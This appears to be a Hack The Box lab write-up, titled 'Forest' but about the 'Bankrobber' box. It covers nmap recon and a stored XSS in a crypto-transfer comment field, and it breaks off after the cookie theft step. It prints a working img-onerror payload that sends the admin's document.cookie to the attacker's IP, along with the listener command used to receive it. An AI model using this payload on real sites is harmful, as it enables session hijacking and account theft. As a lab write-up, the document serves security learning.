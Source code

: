 # HTB: Forest Writeup w/o Metasploit
![bankrobber](https://user-images.githubusercontent.com/48168337/188629756-091014e6-20cc-4f0c-9540-2a1bb9032dbd.png)

## Introduction
Hey everybody, welcome to this writeup on HTB's Bankrobber box. This machine was pretty challenging and fun at the same time. It was ranked as insane so it may have been more than what most are used to. Anyway, let's jump right into it. 

## Recon
As always, I kicked off a few nmap scans to see what services and ports are available. 

![nmap_scan](https://user-images.githubusercontent.com/48168337/188629985-7a7b8cbf-c5f5-4e10-9ed1-fd0c29c15746.png)

As you can see we have Web services, SMB, and SQL services available. Let's check out the web services first by opening a browser and navigating to http://10.10.10.154. FYI, it'll help to have Burpsuite open and logging all of our web traffic as we're checking out the web services.

![webpage](https://user-images.githubusercontent.com/48168337/188630629-f59738cd-2730-4840-9fa8-35220ac4b373.png)

The webpage brings us to some cryptocurrency platform. After playing around with the web page, I decided to register and create an account called "test" and logged into it. After logging in, you'll notice a "Transfer E-Coin" page; looks like you can transfer cryptocurrency to others using this. The transfer has to be approved by an Admin though. 

![trasnfer_on_hold](https://user-images.githubusercontent.com/48168337/188632981-53acfcf1-a46f-46aa-a361-e18e12758b48.png). 

With that in nind, and the comment section on this page, I thought about a XSS (cross site scripting) attack. 

After some fuzzing around, I noticed you can exploit the comment section with XSS scripts. I tested the XSS vulnerability out with a simple script, after it worked, I created some JavaScript to try and steal cookies. I'll skip my test and get to the cookie stealing script. This (**img src=x onerror=this.src=http://10.10.14.2/?cookie="btoa(document.cookie) />**)is the script I used to steal the admin cookies. How or Why does it steal the admin cookies? Well the script gets executed when the admin approves/denies our transfer. After execution their cookies are forwarded to our server. For this to work, we'll need a webserver stared on our box, I used python (**python3 -m http.server 80**) to start one up. 

![cookie_stealer](https://user-images.githubusercontent.com/48168337/188634014-bdcb655c-f0e4-4099-abcc-e75312ad1d70.png)

